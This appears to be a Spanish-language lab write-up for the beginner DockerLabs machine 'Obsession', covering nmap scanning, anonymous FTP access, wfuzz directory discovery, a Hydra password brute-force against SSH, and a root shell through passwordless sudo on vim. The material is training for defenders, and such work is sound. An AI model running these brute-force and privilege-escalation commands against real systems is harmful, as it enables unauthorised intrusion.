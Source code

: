 # 🖥️ **Máquina: Obsession**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio para principiantes en ciberseguridad. Se trabaja principalmente con servicios **SSH** y **FTP**.

- **🎯 Objetivo:**  
  -Enumerar y explotar acceso anónimo en FTP para obtener información sensible.
  
  -Identificar directorios ocultos en el servidor web.
  
  -Realizar un ataque de fuerza bruta contra SSH para obtener acceso al sistema.
  
  -Escalar privilegios a root mediante una mala configuración de sudo con vim.
  
![Máquina Backend](/Obsession/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Obsession en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo  
Primero, descargamos y extraemos el archivo `.zip`. Utilizamos `7z` para este propósito:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático  
Después de descomprimir, lanzamos la máquina con el siguiente script:

```bash
bash auto_deploy.sh obsession.tar
```

📌 **Nota:** Asegúrate de tener `7z` instalado y contar con un entorno con Docker correctamente configurado.

![Máquina Iniciada](/Obsession/Imagenes/Despliegue.jpeg)

### 3️⃣ Comprobar la conexión  
Verificamos que la máquina esté activa enviando paquetes de ping:

```bash
ping -c4 172.17.0.2
```

![PING](/Obsession/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Iniciamos un escaneo de puertos con **nmap**:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Obsession/Imagenes/Puertos.jpeg)

📌 **Tip:** Puedes usar herramientas personalizadas como `extractPorts` para filtrar los puertos abiertos:

```bash
extractPorts allPorts.txt
```

Realizamos un escaneo más específico sobre los puertos detectados (22 y 80):

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Obsession/Imagenes/Servicios.jpeg)

**Hallazgos iniciales:**
- **Puerto 22 (SSH):** Acceso remoto al sistema operativo.
- **Puerto 80 (HTTP):** Página web activa.
- **FTP:** El servicio permite acceso anónimo.

---

## 🌐 **Accediendo al servidor web**

Para acceder correctamente a la página web, debemos modificar el archivo `hosts`:

```bash
sudo nano /etc/hosts
```
Añadimos:

```plaintext
172.17.0.2    nombre-del-sitio.local
```

Esto nos permitirá visitar `http://nombre-del-sitio.local` en nuestro navegador.

![Pagina](/Images/etchost.jpeg)

Recopilamos información básica del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Acceso al servicio FTP**

Ya que el acceso anónimo está habilitado, nos conectamos al servidor FTP:

```bash
ftp 172.17.0.2
```

![Reconocimiento](/Obsession/Imagenes/FTP.jpeg)

Dentro del servicio, encontramos dos archivos:

- `pendientes.txt`
- `chat-gonza.txt`

Los descargamos con:

```bash
get pendientes.txt /home/alejandro/Descargas/pendientes.txt
get chat-gonza.txt /home/alejandro/Descargas/chat-gonza.txt
```

![FTP_descargas](/Obsession/Imagenes/FTP_descargas.jpeg)

Leemos su contenido:

```bash
cat pendientes.txt
cat chat-gonza.txt
```

![cat](/Obsession/Imagenes/Lectura.jpeg)

**Observaciones:**  
Los archivos contienen conversaciones internas. Aunque mencionan asuntos legales, nuestro enfoque es identificar potenciales vulnerabilidades; uno de los archivos sugiere cambios pendientes en la página web, lo que podría indicar fallos en desarrollo.

---

## 🔎 **Búsqueda de Directorios Ocultos**

Al navegar inicialmente por la página no encontramos contenido útil, por lo que iniciamos un escaneo de directorios con **wfuzz**:

```bash
wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

📎 **Nota:** Si no tienes instalada la lista **Seclists**, puedes descargarla con:

```bash
git clone https://github.com/danielmiessler/SecLists.git /usr/share/seclists
```

![Pagina](/Obsession/Imagenes/wfuzz.jpeg)

**Resultados:**
- **/important:** Directorio con un manifiesto personal.
- **/backup:** Directorio que revela un posible nombre de usuario.

![evidencia](/Obsession/Imagenes/important.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_importan.jpeg)
![evidencia](/Obsession/Imagenes/backup.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_backup.jpeg)

---

## 🔐 **Ataque de Fuerza Bruta al servicio SSH**

Con el nombre de usuario descubierto, utilizamos **Hydra** para encontrar su contraseña:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 50
```

![Hydra](/Obsession/Imagenes/Hydrassh.jpeg)

Tras obtener las credenciales, iniciamos sesión:

```bash
ssh russoski@172.17.0.2
```

![Entrar](/Obsession/Imagenes/Entrar.jpeg)

---

## 🛡️ **Escalada de Privilegios**

Dentro de la máquina, verificamos los permisos **sudo**:

```bash
sudo -l
```

Descubrimos que el usuario puede ejecutar **vim** como `sudo` sin contraseña.

**¿Por qué es importante?**  
**Vim** permite ejecutar comandos de sistema desde su entorno. Esto significa que podemos invocar una shell como root directamente desde Vim.

📌 Consultando la base de datos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/), encontramos que para escalar privilegios usando Vim, el comando es:

```bash
sudo vim -c ':!/bin/bash'
```

Esto abrirá un **shell interactivo como root**.

![Entrar](/Obsession/Imagenes/Resultado.jpeg)

---

# ✅ **Resumen del proceso:**

1. Escaneamos puertos y descubrimos servicios SSH, HTTP y FTP.
2. Accedimos vía FTP y descargamos archivos que revelaron información sensible.
3. Identificamos directorios ocultos en la página web.
4. Realizamos un ataque de fuerza bruta sobre SSH y accedimos al sistema.
5. Escalamos privilegios mediante una mala configuración de **sudo** sobre **vim**.
